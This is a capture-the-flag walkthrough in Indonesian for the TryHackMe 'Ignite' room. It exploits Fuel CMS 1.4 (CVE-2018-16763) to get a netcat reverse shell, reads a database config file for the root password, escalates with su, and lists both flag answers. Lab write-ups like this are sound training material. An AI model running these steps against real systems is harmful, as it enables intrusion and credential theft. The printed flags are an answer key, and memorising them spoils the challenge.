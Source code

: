# Ignite
- TryHackMe Room: https://tryhackme.com/room/ignite
- IP Machine: 10.10.116.227

## Task 1 Root it!
- Lakukan port scanning dengan tool `nmap`. Dari hasil scanning hanya ada 1 port yang terbuka, yaitu port 80 (http)
```sh
nmap -sV -sC <IP_Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%201.JPG)

- Buka halaman web `http://<IP_Machine>` di browser. Disini terlihat bahwa halaman ini adalah halaman default fuel CMS versi 1.4

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%202.JPG)

- Di halaman tersebut terdapat informasi dimana letak file konfigurasi database

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%203.JPG)

- Di halaman tersebut juga terdapat informasi cara mengakses halaman admin dan default credential

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%204.JPG)

- Sekarang kita coba akses halaman admin dengan url `http://<IP_Machine>/fuel` dan kita langsung diarahkan ke halaman login. Sekarang kita isi username dan password dengan default credential diatas

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%205.JPG)

- Kita berhasil masuk ke halaman admin, tapi tidak ditemukan hal menarik disini

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%206.JPG)

- Setelah dilakukan pencarian di google, fuel CMS versi 1.4 rentan terhadap serangan Remote Code Execution ( CVE 2018-16763 )

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%207.JPG)

- Download script python3 yang berada di link https://gist.github.com/anir0y/8529960c18e212948b0e40ed1fb18d6d#file-fuel-cms-py untuk melakukan exploitasi pada fuel CMS versi 1.4
- Sekarang kita buat sebuah listener netcat di terminal baru
```sh
nc -lnvp <port>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%208.JPG)

- Jalankan script fuel-cms.py
```sh
python3 fuel-cms.py <IP_Machine>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%209.JPG)

- Ketik `shell_me` kemudian masukkan IP tun0 pada komputer anda lalu nomor port yang digunakan listener netcat tadi dengan format sebagai berikut
```sh
<IP_tun0>:<port>
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2010.JPG)

- Setelah diinput, netcat berhasil terkoneksi dengan server dan masuk sebagai user **www-data**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2011.JPG)

- Selanjutnya kita buka file konfigurasi database fuel CMS, disana terdapat nama user root dan password
```sh
cat fuel/application/config/database.php
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2012.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2013.JPG)

- Kita juga berhasil menemukan lokasi dan isi user flag
```sh
cat /home/www-data/flag.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2014.JPG)

- Untuk mengakses user root kita perlu mengubah shell menjadi terminal interaktif
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2015.JPG)

- Sekarang kita switch ke user root lalu masukkan password yang sudah ditemukan tadi. Disini kita berhasil mengakses user root
```sh
su root
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2016.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2017.JPG)

- Sekarang kita buka isi root flag
```sh
cat /root/root.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/Ignite/assets/ign%2018.JPG)

- **Pertanyaan:** User.txt
- **Jawaban:**
```sh
6470e394cbf6dab6a91682cc8585059b
```
- **Pertanyaan:** Root.txt
- **Jawaban:**
```sh
b9bbcb33e11b80be759c4e844862482d
```